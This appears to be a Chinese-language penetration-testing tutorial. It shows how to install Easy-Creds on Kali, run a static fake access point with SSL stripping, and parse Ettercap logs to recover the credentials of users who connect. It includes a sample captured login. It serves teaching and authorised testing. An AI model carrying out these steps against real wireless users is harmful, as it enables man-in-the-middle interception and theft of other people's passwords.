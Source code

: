 # 使用Easy-Creds工具攻击无线网络

Easy-Creds是一个菜单式的破解工具。该工具允许用户打开一个无线网卡，并能实现一个无线接入点攻击平台。Easy-Creds可以创建一个欺骗访问点，并作为一个中间人攻击类型运行，进而分析用户的数据流和账户信息。它可以从SSL加密数据中恢复账户。本节将介绍使用Easy-Creds工具攻击无线网络。

Easy-Creds是BackTrack5中的一部分。在Kali中，默认没有安装该工具。所以，需要先安装Easy-Creds工具才可使用。

**安装Easy-Creds工具。具体操作步骤如下所示。**

（1）从https://github.com/brav0hax/easy-creds网站下载Easy-Creds软件包，其软件包名为easy-creds-master.zip。

（2）解压下载的软件包。执行命令如下所示：

```
root@localhost:~# unzip easy-creds-master.zip
Archive: easy-creds-master.zip
bf9f00c08b1e26d8ff44ef27c7bcf59d3122ebcc
  creating: easy-creds-master/
 inflating: easy-creds-master/README
 inflating: easy-creds-master/definitions.sslstrip
 inflating: easy-creds-master/easy-creds.sh
 inflating: easy-creds-master/installer.sh
```

从输出的信息中，可以看到Easy-Creds软件包被解压到easy-creds-master文件中。从以上信息中，可以看到在easy-creds-master文件中有一个installer.sh文件，该文件就是用来安装Easy-Creds软件包的。

（3）安装Easy-Creds软件包。在安装Easy-Creds软件包之前，有一些依赖包需要安装。这些依赖包，可以参考easy-creds-master文件中的README文件安装相关的依赖包。然后，安装Easy-Creds包。执行命令如下所示：

```
root@kali:~# cd easy-creds/
root@kali:~/easy-creds# ./installer.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e|||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
        Installer
Please choose your OS to install easy-creds
1\. Debian/Ubuntu and derivatives
2\. Red Hat or Fedora
3\. Microsoft Windows
4\. Exit
Choice:
```

以上信息显示了，安装easy-creds的操作系统菜单。

（4）这里选择安装到Debian/Ubuntu，输入编号1，将显示如下所示的信息：

```
Choice: 1
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
          Installer
Please provide the path you'd like to place the easy-creds folder. [/opt] :   #选择安装位置，本例中使用默认设置
[*] Installing pre-reqs for Debian/Ubuntu…
[*] Running 'updatedb'
[-] cmake is not installed, will attempt to install…
  [+] cmake was successfully installed from the repository.
[+] I found gcc installed on your system
[+] I found g++ installed on your system
[+] I found subversion installed on your system
[+] I found wget installed on your system
[+] I found libssl-dev installed on your system
[+] I found libpcap0.8 installed on your system
[+] I found libpcap0.8-dev installed on your system
[+] I found libssl-dev installed on your system
[+] I found aircrack-ng installed on your system
[+] I found xterm installed on your system
[+] I found sslstrip installed on your system
[+] I found ettercap installed on your system
[+] I found hamster installed on your system
[-] ferret is not installed, will attempt to install…
[*] Downloading and installing ferret from SVN
……
[*] Installing the patched freeradius server…
……
make[4]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc/rfc'
make[3]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[2]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[1]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11'
[+] The patched freeradius server has been installed
[+] I found asleap installed on your system
[+] I found metasploit installed on your system
[*] Running 'updatedb' again because we installed some new stuff
…happy hunting!
```

以上信息显示了安装Easy-Creds包的详细过程。在该过程中，会检测easy-creds的依赖包是否都已安装。如果没有安装，此过程中会安装。Easy-Creds软件包安装完成后，将显示happy hunting！信息。

**使用Easy-Creds工具破解无线网络。具体操作步骤如下所示。**

（1）启动Easy-Creds工具。执行命令如下所示：

```
root@localhost:~/easy-creds-master#./easy-creds.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice:
```

以上输出的信息显示了Easy-Creds工具的攻击菜单。

（2）这里选择伪AP攻击，输入编号3。将显示如下所示的信息：

```
Choice: 3
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. FakeAP Attack Static
2\. FakeAP Attack EvilTwin
3\. Karmetasploit Attack
4\. FreeRadius Attack
5\. DoS AP Options
6\. Previous Menu
Choice:
```

以上输出信息显示了伪AP攻击可使用的方法。

（3）这里选择使用静态伪AP攻击，输入编号1。将显示如下所示的信息。

![img](https://img-blog.csdnimg.cn/20181107001209342.jpeg)

设置完以上的信息后，将会自动启动一些程序。几秒后，将会打开几个有效窗口。

![img](https://img-blog.csdnimg.cn/20181107001341328.jpeg)

（4）当有用户连接Wifi接入点时，Easy-Creds将自动给客户端分配一个IP地址，并且能够访问互联网。如果在互联网上访问一个安全网址时，该工具将除去SSL并删除安全连接并在后台运行。所以，能够读取到客户端登录某个网站的用户名和密码。捕获到一个登录http://www.live.com网站的用户名和密码。其用户名为[test@live.com](mailto:test@live.com)，密码为qwert。

（5）此时在Easy-Creds的主菜单中选择数据恢复，输入编号4，如下所示：

```
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 4
```

（6）选择数据恢复后，将显示如下所示的信息：

```
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Parse SSLStrip log for credentials
2\. Parse dsniff file for credentials
3\. Parse ettercap eci file for credentials
4\. Parse freeradius attack file for credentials
5\. Previous Menu
Choice: 3
```

以上信息显示了可用证书的方法。

（7）这里选择分析Ettercap eci文件，输入编号3，将显示如下所示的信息：

```
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
Ettercap logs in current log folder:
/root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2018-11-07-1724.eci
Enter the full path to your ettercap.eci log file:
```

从输出信息中，可以看到Ettercap日志文件的保存位置。

（8）此时输入ettercap.eci日志文件的全路径。这里只需要通过复制并粘贴提供的整个Ettercap路径就可以了。如下所示：

```
Enter the full path to your ettercap.eci log file: /root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2014-07-24-1724.eci
```

输入以下路径后，将显示如图所示的界面

![img](https://img-blog.csdnimg.cn/20181107001728273.jpeg)

（9）从该界面可以清楚的看到，截获的客户端用户信息及登录的网站。